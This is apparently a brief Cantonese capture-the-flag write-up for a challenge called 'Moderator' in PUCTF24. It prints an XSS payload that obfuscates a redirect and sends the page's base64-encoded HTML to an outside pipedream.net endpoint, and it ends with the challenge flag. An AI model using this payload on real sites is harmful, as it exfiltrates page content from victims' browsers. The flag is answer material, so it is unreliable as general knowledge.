 # Moderator 網站版主

見到 reCAPTCHA, 市 XSS 的味道

![](./img/gaming.jpg)

```
<script>
window['loca'+'tion']='https://eor6zafe1xnz0o2.m.pipedream.net/?document='+btoa(document.documentElement.innerHTML);
</script>
```

flag: PUCTF24{y0u_kn0w_X55_n0w!_2fdbea18c7a95f341e970f8a4f33dc46}
